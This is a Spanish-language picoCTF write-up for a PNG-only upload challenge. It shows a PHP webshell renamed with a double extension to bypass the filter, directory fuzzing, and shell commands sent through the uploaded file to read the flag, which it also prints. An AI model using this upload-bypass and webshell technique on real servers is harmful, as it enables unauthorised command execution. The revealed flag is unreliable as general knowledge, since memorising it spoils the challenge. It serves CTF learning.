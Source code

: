 ## Objetivo
I found a web app that can help process images: PNG images only! Try it [here](http://atlas.picoctf.net:61272/)!
## Solución
Analizamos la pagina y vemos que trabaja con php
```bash
┌──(kali㉿kali)-[~]
└─$ whatweb http://atlas.picoctf.net:61871/
http://atlas.picoctf.net:61871/ [200 OK] Apache[2.4.56], Country[UNITED STATES][US], HTML5, HTTPServer[Debian Linux][Apache/2.4.56 (Debian)], IP[18.217.83.136], PHP[8.0.30], Title[File Upload Page], X-Powered-By[PHP/8.0.30]


┌──(kali㉿kali)-[~]
└─$ mkdir picoCTF  
                                       
┌──(kali㉿kali)-[~]
└─$ cd picoCTF 
                                       
┌──(kali㉿kali)-[~/picoCTF]
└─$ cp /usr/share/webshells/php/simple-backdoor.php webshell.php

                                                                                 
┌──(kali㉿kali)-[~/picoCTF]
└─$ ls
webshell.php
                                                                                 
┌──(kali㉿kali)-[~/picoCTF]
└─$ nano webshell.php 
                                                                                 
┌──(kali㉿kali)-[~/picoCTF]
└─$ mv webshell.php webshell.png.php

──(kali㉿kali)-[~/picoCTF]
└─$ ffuf -u http://atlas.picoctf.net:61871/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -ic

                                
```
Vemos el directorio
http://atlas.picoctf.net:61272/uploads/webshell.png.php?cmd=find%20/%20-name%20*txt%202%3E/dev/null

Hacemos cat a /var/www/html/GAZWIMLEGU2DQ.txt
http://atlas.picoctf.net:61272/uploads/webshell.png.php?cmd=cat%20/var/www/html/GAZWIMLEGU2DQ.txt

Contraseña revelada 
.PNG
/* picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_03d1d548} *
## Notas Adicionales

## Referencias
https://audea.com/una-webshell-se-utiliza/
https://book.hacktricks.xyz/pentesting-web/file-upload

